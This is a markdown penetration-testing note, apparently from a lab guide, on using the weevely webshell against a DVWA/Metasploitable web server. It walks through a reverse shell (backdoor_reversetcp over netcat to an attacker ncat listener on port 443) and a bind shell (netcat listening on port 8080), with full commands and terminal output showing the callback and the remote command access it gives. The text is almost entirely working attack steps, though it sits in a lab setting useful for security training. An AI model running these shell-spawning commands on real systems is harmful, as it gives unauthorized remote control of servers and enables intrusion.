 # 05 - Spawn Callback Shell

Search Tag(s): #weevely #command-and-control #webshell #interactive-shell

## 5.1 Reverse Shell

* Attacker (waiting callback)

```
user@pentestos:~$ sudo ncat -lnvp 443
```

* Compromised Target (Web Server)

```
weevely> backdoor_reversetcp -h
The remote script execution triggers an error 500, check script and payload integrity
usage: backdoor_reversetcp [-h] [-shell SHELL] [-no-autonnect] [-vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}] lhost port

Execute a reverse TCP shell.

positional arguments:
  lhost                 Local host
  port                  Port to spawn

optional arguments:
  -h, --help            show this help message and exit
  -shell SHELL          Specify shell
  -no-autonnect         Skip autoconnect
  -vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ backdoor_reversetcp -shell /bin/bash -vector netcat_bsd 172.28.128.14 443
The remote script execution triggers an error 500, check script and payload integrity
Error binding socket: '[Errno 98] Address already in use'
```

- Attacker (callback established)

```
user@pentestos:~$ sudo ncat -lnvp 443
[sudo] password for user:
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.28.128.8.
Ncat: Connection from 172.28.128.8:47902.
bash: no job control in this shell
www-data@metasploitable:/var/www/dvwa/vulnerabilities$ ls
brute
csrf
exec
fi
sqli
sqli_blind
upload
view_help.php
view_source.php
view_source_all.php
xss_r
xss_s
www-data@metasploitable:/var/www/dvwa/vulnerabilities$
```

## 5.2 Bind Shell

The `:backdoor_tcp` command module function in weevely for spawning a remote shell via netcat.

* Compromised Target (Web Server)

```
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ backdoor_tcp -shell /bin/bash -vector netcat 8080
The remote script execution triggers an error 500, check script and payload integrity
Error connecting to 172.28.128.8:443: remote port not open or unreachable
```

The alternative is you run with any commands.

```
www-data@172.28.128.8:/var/www/dvwa/vulnerabilities $ nc -lnvp 8080
```

* Attacker

```
user@pentestos:~$ nc 172.28.128.8 8080
```

---
## References

* [Web App Hacking Part 6 Injecting a Backdoor into a Website with Weevely](https://www.hackers-arise.com/post/2017/12/03/Web-App-Hacking-Part-6-Injecting-a-Backdoor-into-a-Website-with-weevely)